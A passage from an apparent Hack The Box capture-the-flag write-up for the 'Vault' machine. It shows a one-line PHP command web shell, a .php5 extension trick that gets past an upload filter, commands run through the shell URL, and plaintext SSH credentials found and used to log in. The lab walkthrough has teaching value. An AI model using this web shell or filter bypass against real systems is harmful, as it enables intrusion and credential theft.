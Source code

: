 I used a simple PHP command shell:

```php
<html><head></head><body><pre>
<?php system($_GET["cmd"]); ?>
</pre></body></html>
```

When we try to upload a simple PHP command shell we get a `sorry that file type is not allowed` error message.

After trying a few different file types, I noticed we can use the `.php5` file extension and we get a `The file was uploaded successfully` message.

We now have RCE:

![](/assets/images/htb-writeup-vault/rce.png)

Found a couple of interesting files in Dave's desktop folder:

**http://vault.htb/sparklays/design/uploads/shell.php5?cmd=ls%20-l%20/home/dave/Desktop**
```
total 12
-rw-rw-r-- 1 alex alex 74 Jul 17 10:30 Servers
-rw-rw-r-- 1 alex alex 14 Jul 17 10:31 key
-rw-rw-r-- 1 alex alex 20 Jul 17 10:31 ssh
```

The `ssh` file contains plaintext credentials:

**http://vault.htb/sparklays/design/uploads/shell.php5?cmd=cat%20/home/dave/Desktop/ssh**
```
dave
Dav3therav3123
```

### Shell access

Using the SSH credentials we found in Dave's directory we can now log in:

```
root@ragingunicorn:~/hackthebox/Machines/Vault# ssh dave@10.10.10.109
dave@10.10.10.109's password:

Last login: Sat Nov  3 19:59:05 2018 from 10.10.15.233
dave@ubuntu:~$
```

The `~/Desktop` directory contains a couple of interesting files:

```
dave@ubuntu:~/Desktop$ ls -l
total 12
-rw-rw-r-- 1 alex alex 14 Jul 17 10:31 key
-rw-rw-r-- 1 alex alex 74 Jul 17 10:30 Servers
-rw-rw-r-- 1 alex alex 20 Jul 17 10:31 ssh

dave@ubuntu:~/Desktop$ cat key
itscominghome

dave@ubuntu:~/Desktop$ cat Servers
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```